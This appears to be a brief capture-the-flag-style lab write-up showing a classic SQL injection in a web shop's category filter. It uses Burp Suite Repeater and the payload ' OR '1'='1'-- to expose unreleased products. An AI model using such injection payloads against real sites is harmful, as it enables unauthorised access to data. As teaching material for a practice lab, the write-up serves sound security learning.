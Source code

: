 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/05c0ded5-6b18-4436-83a0-10d0028bec34)

Let's filter by `Accessories`.

![2](https://github.com/Knign/Write-ups/assets/110326359/ee0df3f1-fb0b-45ec-8615-c79471f13858)

The resultant SQL query is:

```sql
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
```

 Since we are proxying the traffic through Burp Suite, we can access this request in the `Proxy> HTTP History` tab.

![5](https://github.com/Knign/Write-ups/assets/110326359/5aaf1fbb-f0fe-4fdd-939b-2606da5ed80f)

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, we can set the `categories` filter to the following:

```
' OR '1'='1'--
```

The resultant SQL query will be:

```sql
SELECT * FROM products WHERE category = '' OR '1' = '1'--' AND released = 1
```

Since 1 is always equal to 1, the server will output all the categories. And since, we are commenting out the `AND released = 1` part, even the unreleased products will be output.

![4](https://github.com/Knign/Write-ups/assets/110326359/b0a631f0-5746-4946-af91-18aca263b6c4)

We have solved the lab.

![6](https://github.com/Knign/Write-ups/assets/110326359/d5602a3a-6753-439e-b0bc-18335f2cfa6e)
